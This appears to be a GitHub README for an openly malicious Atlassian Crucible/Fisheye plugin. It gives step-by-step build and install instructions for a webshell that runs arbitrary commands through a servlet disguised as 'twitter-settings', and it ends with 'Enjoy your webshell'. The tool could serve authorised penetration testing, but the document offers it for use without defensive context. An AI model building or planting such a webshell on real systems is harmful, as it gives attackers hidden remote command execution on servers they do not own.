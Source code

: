 A malicious plugin for Atlassian Crucible/Fisheye that when installed gives command execution via `/plugins/servlet/twitter-settings?cmd=id` endpoint


#### Usage
1. Install Atlassian Plugin SDK. E.g. for MacOS:
```bash
brew tap atlassian/tap
brew install atlassian/tap/atlassian-plugin-sdk
```

2. Clone this repo & cd into it
```bash
git clone https://github.com/UgniusV/fecru-webshell-plugin.git
cd fecru-webshell-plugin
```

3. Generate a JAR by running
```bash
atlas-package
```

4. Navigate to http://crucible:8060/plugins/servlet/upm?source=side_nav_manage_addons & install the JAR
5. Enjoy your webshell at: http://crucible:8060/plugins/servlet/twitter-settings?cmd=id
